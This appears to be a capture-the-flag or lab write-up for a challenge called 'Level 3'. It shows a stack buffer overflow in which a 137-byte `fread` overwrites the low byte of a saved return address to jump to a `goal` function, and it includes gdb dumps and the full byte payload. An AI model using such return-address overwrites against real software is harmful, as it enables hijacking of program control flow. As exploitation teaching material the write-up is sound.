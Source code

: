 ### Level 3

There is a function called `<interact>` that calls `fread( address 0xffffce34, 1 byte, 0x89 elements, stdin)`.

Original address it returns to : `0x8048623`.

We want to return to address : `0x804862d`. This is the address of the function `<goal>`.
```
(gdb) disassemble goal
Dump of assembler code for function goal:
   0x0804862d <+0>:	push   ebp
```

`fread` reads 137 characters from stdin. The return address lies in addr `0xffffcebc`. So the 137th char overrides the last byte of the return address.
```
\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x62
```

Let's see how the input looks like in memory. See how `0x8048623` becomes `0x8048662`? The '23' became '62'.
```
(gdb) x/64x $esp
0xffffce20:	0xffffce34	0x00000001	0x00000089	0xf7faa5a0
0xffffce30:	0x00000003	0x61616161	0x61616161	0x61616161
0xffffce40:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffce50:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffce60:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffce70:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffce80:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffce90:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffcea0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffceb0:	0x61616161	0x61616161	0x61616161	0x08048662
0xffffcec0:	0xf7faa3dc	0xffffcee0	0x00000000	0xf7e10637
0xffffced0:	0xf7faa000	0xf7faa000	0x00000000	0xf7e10637
0xffffcee0:	0x00000001	0xffffcf74	0xffffcf7c	0x00000000
0xffffcef0:	0x00000000	0x00000000	0xf7faa000	0xf7ffdc04
0xffffcf00:	0xf7ffd000	0x00000000	0xf7faa000	0xf7faa000
0xffffcf10:	0x00000000	0x464aaeb6	0x7bdc80a6	0x00000000
```

So our winning input will replace '23' of `0x8048623` with '2d'.
``` 
\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x2d
```
